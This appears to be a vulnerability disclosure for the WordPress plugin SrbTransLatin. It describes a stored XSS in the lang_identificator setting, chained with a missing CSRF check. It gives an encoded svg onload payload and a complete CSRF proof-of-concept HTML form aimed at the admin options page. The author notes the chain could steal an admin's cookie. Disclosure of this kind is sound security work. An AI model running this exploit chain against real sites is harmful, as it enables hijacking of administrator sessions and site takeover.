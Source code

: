 Well ,sir ,I just found a Stored-XSS bug and a CSRF bug at wp-plugin SrbTransLatin.

#### Stored-XSS

When the admin user click the "Update Options" button in the SrbTransLatin setting page, we'll post some data to:

```
http://localhost/wordpress/wp-admin/options-general.php?page=srbtranslatoptions
```


But when I pentest the  parameter in this plugin, I found when I write something into this point, it does not filter well.

Weak data parameter:

```
lang_identificator=script%27%22%3E%3Csvg%2Fonload%3Dalert%28123%29%3E%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/SrbTransLatin/insert-xss.png)


#### CSRF

Well, the stored-xss here need to combined with a csrf bug. Because no csrf protection here, we can cheat the admin user to visit the evil html on the evil site.

POC:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/wordpress/wp-admin/options-general.php?page=srbtranslatoptions" method="POST">
      <input type="hidden" name="lang&#95;identificator" value="script&apos;&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;123&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="stl&#95;default&#95;language" value="cir" />
      <input type="hidden" name="file&#95;lang&#95;delimiter" value="&#61;" />
      <input type="hidden" name="sanitize&#95;file&#95;names" value="on" />
      <input type="hidden" name="Submit" value="Update&#32;Options" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

In a word, if the manager could be cheated to visit my evil html on my site, I can get the manager's cookie easily, or do something more evilly.


Well,  by the way, I just test the bug in the wordpress 4.9.1 and the latest version of the wp-plugin SrbTransLatin.